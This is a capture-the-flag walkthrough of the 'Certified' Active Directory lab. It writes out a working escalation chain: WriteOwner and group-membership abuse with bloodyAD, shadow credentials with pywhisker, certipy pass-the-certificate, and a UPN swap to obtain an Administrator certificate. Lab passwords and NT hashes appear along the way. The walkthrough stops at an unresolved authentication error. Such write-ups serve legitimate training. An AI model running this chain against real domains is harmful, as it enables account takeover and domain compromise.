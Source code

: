 ```yaml
---
description: 'Username: judith.mader Password: judith09'
---
```


# Certified

We start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:

{% embed url="https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad" %}

* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.

{% embed url="https://podalirius.net/fr/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/" %}

{% embed url="https://github.com/ShutdownRepo/pywhisker/" %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`

{% embed url="https://github.com/dirkjanm/PKINITtools/tree/master" %}

**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate" %}

> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Just to be sure this works:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

